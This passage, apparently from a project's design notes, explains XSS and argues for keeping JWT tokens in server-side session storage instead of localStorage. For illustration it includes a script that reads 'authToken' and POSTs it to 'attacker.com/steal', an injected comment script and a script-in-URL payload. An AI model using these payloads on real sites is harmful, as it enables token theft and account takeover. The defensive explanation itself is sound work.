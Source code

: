 ## XSS (Cross-Site Scripting) Security Analysis

### What is XSS?
Cross-Site Scripting (XSS) is a security vulnerability where malicious scripts are injected into web applications and executed in users' browsers.

### XSS Attack Scenarios

**1. localStorage Vulnerability (What Requirements Suggest)**
```javascript
// Malicious script can easily access token
const stolenToken = localStorage.getItem('authToken');
// Send token to attacker's server
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token: stolenToken })
});
```

**2. Our Session Storage Protection**
```csharp
// Token stored server-side, inaccessible to client-side scripts
// Even if XSS occurs, token cannot be stolen
var token = HttpContext.Session.GetString("Token"); // Server-side only
```

### Real-World XSS Examples

**Scenario 1: Comment Injection**
```html
<!-- Malicious comment containing script -->
<div class="comment">
    <script>
        // This script runs if XSS protection fails
        const token = localStorage.getItem('authToken');
        // Token is now compromised
    </script>
</div>
```

**Scenario 2: URL Parameter Injection**
```
https://yoursite.com/search?q=<script>localStorage.getItem('authToken')</script>
```

**Our Protection:**
- Even if XSS occurs, JWT token remains secure on server
- No client-side access to authentication credentials

## Implementation Details

### 1. Token Acquisition and Storage
